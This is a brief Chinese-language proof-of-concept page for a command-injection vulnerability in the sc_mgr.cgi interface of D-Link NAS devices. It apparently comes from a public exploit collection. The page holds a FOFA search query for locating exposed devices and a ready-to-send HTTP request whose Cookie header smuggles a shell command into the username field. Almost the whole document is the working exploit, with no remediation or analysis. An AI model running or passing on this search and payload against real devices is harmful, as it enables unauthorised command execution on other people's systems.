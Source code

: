 # D-Link-NAS接口sc_mgr.cgi存在命令执行漏洞
D-Link-NAS接口sc_mgr.cgi存在命令执行漏洞

## fofa
```java
body="/cgi-bin/login_mgr.cgi"  &&  body="cmd=cgi_get_ssl_info"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731336110353-da817235-136a-49bd-9e02-241d826321d4.png)

## poc
```java
GET /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: username=mopfdfsewo'& id & echo 'mopfdfsewo;
```

![image-20241122152945481](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221529540.png)

